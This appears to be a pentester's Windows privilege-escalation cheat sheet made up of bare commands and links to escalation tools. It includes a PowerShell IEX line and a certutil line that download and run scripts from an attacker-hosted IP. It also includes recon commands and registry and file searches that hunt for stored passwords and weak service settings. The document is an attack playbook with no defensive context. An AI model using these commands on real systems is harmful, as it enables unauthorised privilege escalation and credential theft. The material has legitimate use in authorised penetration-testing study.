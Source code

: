 #### Steps ####

```whoami```

```whoami /priv```

```powershell "IEX(New-Object Net.WebClient).DownloadString('http://192.168.x.x:8000/PowerUp.ps1')"```

```certutil.exe -urlcache -split -f http://192.168.x.x:8000/privesc.bat privesc.bat```

```WinPeas```

> https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite

#### CMD Commands ####

```net config Workstation```

```systeminfo | findstr /B /C:"OS Name" /C:"OS Version"```

```hostname```

```net users```

```ipconfig /all```

```route print```

```arp -A```

```netstat -ano```

```netsh firewall show state```	

```netsh firewall show config```

```schtasks /query /fo LIST /v```

```tasklist /SVC```

```net start```

```DRIVERQUERY```

```reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated```

```reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated```

```dir /s *pass* == *cred* == *vnc* == *.config* ```

```findstr /si password *.xml *.ini *.txt```

```reg query HKLM /f password /t REG_SZ /s```

```reg query HKCU /f password /t REG_SZ /s```

```sc qc Spooler```

```accesschk.exe -ucqv Spooler```

> https://github.com/frizb/Windows-Privilege-Escalation/blob/master/windows_recon.bat
